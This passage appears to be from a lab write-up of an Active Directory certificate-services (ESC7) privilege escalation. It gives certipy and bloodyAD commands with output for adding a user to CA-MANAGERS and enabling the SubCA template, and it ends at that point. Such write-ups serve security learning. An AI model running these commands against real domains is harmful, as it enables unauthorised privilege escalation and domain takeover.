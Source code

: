 ```bash
certipy find -u 'Simon.Bowen' -p 'REDACTED' -vulnerable -stdout -dc-ip 10.10.152.69
```
We can see this :

![alt text](<../assets/image_intercept/5er certipy.png>)

So CA-MANAGERS group has manageCA permissions, thanks to that we can change CA's settings to enable SAN its a ESC7 attack [ESC7 Attack](https://www.thehacker.recipes/ad/movement/adcs/access-controls#esc7-abusing-subca)

First, let's add Simon.Bowen to the CA-MANAGERS group :

```bash
bloodyAD --host "10.10.152.69" -d "intercept.vl" -u "Simon.Bowen" -p "REDACTED" add groupMember "CA-MANAGERS" "Simon.Bowen" 
[+] Simon.Bowen added to CA-MANAGERS
```
Now we can list templates like that :

```bash
certipy ca -u "Simon.Bowen@WS01.intercept.vl" -p "REDACTED" -dc-ip "10.10.152.69" -ca 'intercept-DC01-CA' -list-templates
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Enabled certificate templates on 'intercept-DC01-CA':
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    DomainController
    WebServer
    Machine
    User
    SubCA
    Administrator
```
SubCA is enabled 

```console
When it is not possible to restart the CertSvc service to enable the EDITF_ATTRIBUTESUBJECTALTNAME2 attribute, the SubCA built-in template can be used, along with a ManageCA right.

The SubCA template is vulnerable to the ESC1 attack, but only Domain Admins and Enterprise Admins can enroll in it. If a standard user tries to enroll in it, he will encounter a CERTSRV_E_TEMPLATE_DENIED errror and will obtain a request ID with a corresponding private key.

This ID can be used by a user with the ManageCA and ManageCertificates rights to validate the failed request anyway. The user can then retrieve the issued certificate by specifying the same ID.
```
Let's start the exploit :

```bash
certipy ca -u "Simon.Bowen@intercept.vl" -p "REDACTED" -dc-ip "10.10.152.69" -ca 'intercept-DC01-CA' -enable-template 'SubCA'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'intercept-DC01-CA'
```
